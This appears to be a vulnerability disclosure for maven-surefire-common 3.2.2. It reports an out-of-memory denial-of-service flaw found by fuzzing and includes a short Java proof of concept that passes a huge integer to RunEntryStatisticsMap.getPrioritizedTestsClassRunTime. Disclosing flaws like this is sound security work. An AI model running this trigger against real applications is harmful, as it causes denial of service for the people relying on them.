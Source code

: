 When I test the latest version(3.2.2) of maven-surefire-common by CIFuzz，a OOM security issue was found, it caused when use a big number, may cause denial of service issues in applications via the follow code:

pom
```
<dependency>
   <groupId>org.apache.maven.surefire</groupId>
   <artifactId>maven-surefire-common</artifactId>
   <version>3.2.2</version>
</dependency>
```
code
```
import org.apache.maven.surefire.api.runorder.RunEntryStatisticsMap;

import java.util.ArrayList;

public class MavenSurefire_OOM {

    public static void main(String[] args) {
        try {
            RunEntryStatisticsMap runEntryStatisticsMap = new RunEntryStatisticsMap();
            runEntryStatisticsMap.getPrioritizedTestsClassRunTime(new ArrayList(), 1832742252);
        } catch (Exception e) {
        }
    }
}
```
![image](https://github.com/Alex111998/Vuln/assets/127834723/fecb6a8c-0364-4694-9980-fa89226e139f)
